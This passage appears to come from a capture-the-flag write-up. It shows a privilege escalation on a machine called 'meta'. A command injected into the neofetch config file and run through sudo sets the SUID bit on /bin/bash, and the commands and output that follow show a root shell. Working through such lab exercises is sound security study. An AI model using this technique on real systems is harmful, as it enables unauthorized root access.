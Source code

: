 - We set the env variable

```bash
export XDG_CONFIG_HOME=/home/thomas/.config/
```

- We add `exec=$(chmod u+s /bin/bash)` at the end of the config file
- We execute `sudo /usr/bin/neofetch`
- Bash binary should be SUID and allow us to get a shell as root

```bash
thomas@meta:~/.config/neofetch$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
thomas@meta:~/.config/neofetch$ bash -p
bash-5.0# whoami
root
```
